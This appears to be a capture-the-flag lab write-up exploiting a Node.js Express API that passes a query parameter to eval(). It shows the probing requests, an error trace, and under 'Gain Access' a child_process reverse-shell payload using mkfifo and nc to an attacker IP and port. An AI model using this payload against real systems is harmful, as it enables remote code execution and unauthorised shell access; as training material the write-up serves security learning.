 ```
GET /api/items?cmd=test HTTP/1.1
Host: 10.10.2.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
```

Modify the request form `GET` → `POST`

```
POST /api/items?cmd=test HTTP/1.1
```

And the response would be

```
ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60), <anonymous>:1:1)
    at router.post (/var/web/routes/api.js:25:60)
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
    at next (/var/web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
    at /var/web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)
    at next (/var/web/node_modules/express/lib/router/index.js:275:10)
    at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
```

The display error tells us that the value `test` we’ve parsed at the `cmd` param *is not defined* which would be parsed to the `eval()` function

<aside>
💡 The `eval()` method evaluates or executes an argument.

If the argument is an expression, `eval()` evaluates the expression. If the argument is one or more JavaScript statements, `eval()` executes the statements.

</aside>

# Gain Access

Research about the `eval()` exploitation combine with the RCE I found the payload as

```
require('child_process').exec(rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_LOCAL> <PORT> >/tmp/f)
```

Then modify the request to

```
POST /api/items?cmd=require('child_process').exec('rm+-f+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.8.97.213+4444+>/tmp/f') HTTP/1.1
Host: 10.10.2.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
```
